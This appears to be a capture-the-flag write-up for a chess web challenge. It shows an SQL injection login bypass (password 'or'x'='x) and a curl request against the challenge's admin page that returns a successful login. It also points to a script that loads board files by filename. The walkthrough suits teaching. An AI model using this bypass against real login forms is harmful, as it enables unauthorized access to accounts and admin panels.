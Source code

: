 This game is full of bugs. Moreover, changing the difficulty won't have any noticeable effect :)

There is an SQL injection in the "master login" page.

Use username `master` and password `'or'x'='x` to get access to the admin page. Here is an example with cURL, you will have to use the browser.

```shell
❯ curl 'https://hackerchess-web.h4ck.ctfcompetition.com/admin.php' -X POST \
    --data 'username=master&password=%27or%27x%27%3D%27x'

<html>
<head>
    <title>Secret Admin Panel</title>
<script
    data-autoload-cookie-consent-bar="true"
    data-autoload-cookie-consent-bar-intl-code=""
    src="https://www.gstatic.com/brandstudio/kato/cookie_choice_component/cookie_consent_bar.v3.js">
</script>
<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-06YS0MVC8B"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
    gtag('js', new Date());
    gtag('config', 'G-06YS0MVC8B', { anonymize_ip: true, referrer: document.referrer.split('?')[0] });
    </script>

</head>
<body>


Logged in successfully!</body>
</html>
```

You can use this panel to turn off cheats, but that is not how you are going to win properly the game 🙂(i.e., you don't need to leverage this SQL injection to solve the challenge).

***Never forget to look at the source!***

Looking at the game main HTML page, I noticed a weird script:

```javascript
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', 'baseboard.fen')

  xhr.open('POST', url, true)
  xhr.send(formData);
  window.location.href = "index.php";
}
```
